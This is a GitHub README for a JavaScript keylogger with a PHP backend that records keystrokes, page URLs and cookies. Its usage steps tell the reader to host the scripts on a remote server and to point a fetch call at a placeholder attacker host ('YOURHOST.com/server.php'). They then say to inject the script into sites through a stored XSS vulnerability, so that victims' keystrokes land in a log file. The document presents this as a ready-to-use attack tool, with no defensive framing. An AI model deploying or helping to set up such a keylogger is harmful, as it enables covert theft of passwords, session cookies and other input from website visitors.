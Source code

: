 # JS-KEYLOGGER
 JS-Keylogger monitoring url and stealing cookie and more keys

![js](https://img.shields.io/badge/Language-JS-blue?style=for-the-badge&logo=javascript)
![PHP](https://img.shields.io/badge/Language-PHP-blue?style=for-the-badge&logo=php)
<img alt="logo" align="left" width="300" height="300" src="https://github.com/K3rnel-Dev/JS-KEYLOGGER/blob/main/img/logo.png">
<h1>JS-KEYLOGGER</h1>

### JS-KEYLOGGER ABOUT
> EN:
> Javascript keylogger supports cookie stilling and url monitoring
> from which the keys were pressed
> RU:
> Javascript кейлоггер для записывания клавиш поддерживает стиллинг куки и мониторинг url
> с которого были нажаты клавиши
</br>

<img alt="screen" align="center" src="https://github.com/K3rnel-Dev/LOCAL-ATTACK/blob/main/img/meme.jpg">



#### How to f#ck!ng using this???
```
1) You must have a remote server to run both scripts,before that, you can set server.php and > keylogger.js on your remote server.
2) Change the file keylogger.js following lines on your host:
```
```php
10 fetch('http://YOURHOST.com/server.php', {
```
```
3) If you can founded the vulnerable STORED XSS you can be put your remote js and
> sniffing keystrokes on site, the recorded keys will be in your remote server in the   >keylog.txt file.
```


## 0xTHX
Thanks for watching:D